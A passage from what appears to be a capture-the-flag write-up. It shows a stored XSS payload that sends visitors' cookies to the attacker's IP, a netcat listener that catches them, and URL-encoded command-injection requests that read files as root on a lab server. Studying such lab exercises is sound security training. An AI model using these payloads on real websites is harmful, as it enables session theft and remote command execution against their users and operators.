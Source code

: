 ```
<script>window.location='http://10.8.0.74/?cookie='+document.cookie</script>
```

by doing that, anyone login to the website (include admin) will connect to our machine ip with their cookie

now exit the forum and open netcat

```
nc -vlnp 80
```

after a while, admin logged in

Answer

![image](https://user-images.githubusercontent.com/90561566/210316719-d53946c2-5b77-4d2a-a5f3-918d6e435d31.png)

## Day 19: Commands

we have a webpage here

![image](https://user-images.githubusercontent.com/90561566/210502776-517732f5-81ce-48c0-bd1d-b2a860298f00.png)

we know that there is a command injection vulnerablitity at `/api/cmd/`

![image](https://user-images.githubusercontent.com/90561566/210503034-456614a3-1366-4ea5-b554-191d836453a9.png)

amazing, we can run command throught root user

remember URL encoded:
+ `%20` = `Space`
+ `%2f` = `/`

```
find / -name user.txt -type f 2>/dev/null
```

finally, i have the command

```
http://10.10.4.219:3000/api/cmd/find%20%2f%20-name%20user.txt%20-type%20f%202>%2fdev%2fnull
```

![image](https://user-images.githubusercontent.com/90561566/210503929-178fc09a-7210-4c00-be21-39b20898cd75.png)

```
http://10.10.4.219:3000/api/cmd/cat%20%2fhome%2fbestadmin%2fuser.txt
```

![image](https://user-images.githubusercontent.com/90561566/210504102-74a45660-ef86-47d7-b266-e0120ac584d3.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210504154-136d7b57-6f15-4fc2-ad48-6e58e861bb4c.png)
